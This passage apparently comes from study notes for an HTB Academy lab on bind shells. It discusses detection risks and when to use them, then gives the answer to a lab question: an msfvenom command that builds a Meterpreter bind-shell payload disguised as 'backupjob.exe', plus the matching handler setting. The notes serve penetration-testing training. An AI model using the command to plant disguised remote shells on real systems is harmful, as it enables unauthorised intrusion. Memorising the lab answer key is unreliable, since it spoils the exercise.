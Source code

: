 
## **17. Bind Shell Security Considerations**

### **Increased Detection Risk**
1. **Inbound connections** are more suspicious
2. **Listening ports** on targets are detectable
3. **Firewall rules** may block inbound traffic
4. **Network monitoring** can identify bind shells

### **Operational Challenges**
1. **Target firewall** may block inbound connections
2. **NAT/Proxy issues** can prevent access
3. **Port conflicts** with existing services
4. **Persistence** requires payload to keep running

### **When to Use Bind Shells**
1. **Specific network configurations** requiring inbound
2. **Callback restrictions** in target environment
3. **Multiple handler sessions** to same target
4. **Persistence scenarios** where reverse shells fail

---

## **18. HTB Academy Lab Questions (Page 7)**

### **Question: Meterpreter Payload Identification**
**"What Meterpreter payload did we use to catch the bind shell session? (Submit the full path as the answer)"**

**Answer:** `windows/x64/meterpreter/bind_tcp`

**Explanation:**
- **Payload Type:** Bind TCP (not reverse)
- **Architecture:** x64 (64-bit Windows)
- **Framework:** Meterpreter (advanced shell)
- **Protocol:** TCP (standard networking)

**Technical Verification:**
```bash
# Payload generation command shows full path
msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupjob.exe LPORT=8443

# Handler configuration confirms payload path
set payload windows/x64/meterpreter/bind_tcp
```

---

## **19. Troubleshooting Bind Shell Issues**

### **Common Problems**
